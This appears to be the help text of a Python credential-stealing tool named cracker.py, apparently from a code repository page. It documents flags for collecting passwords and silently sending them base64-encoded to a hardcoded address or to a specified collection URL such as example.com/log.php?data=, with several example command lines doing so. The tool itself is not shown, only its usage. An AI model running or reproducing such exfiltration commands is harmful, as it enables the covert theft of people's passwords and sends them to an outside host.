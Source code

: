 Usage:
    python cracker.py [OPTIONS] [URI]
   
Parameters:
    v - be verbose
    p - print passwords to console
    s - send base64 encoded passwords to URI
    h - print this help

Examples:

    python cracker.py -vps http://www.example.com/log.php?data=
    Be extremely verbose and send passwords to specified uri

    python cracker.py -s http://example.com/log.php?data=
    Be silent and send passwords to specified uri

    python cracker.py -s
    Be silent and send passwords to hardcoded uri

    python cracker.py
    Use hardcoded properties (be silent and send to hardcoded uri)

    python cracker.py - http://example.com/log.php?data=
    Use hardcoded properties and specified uri
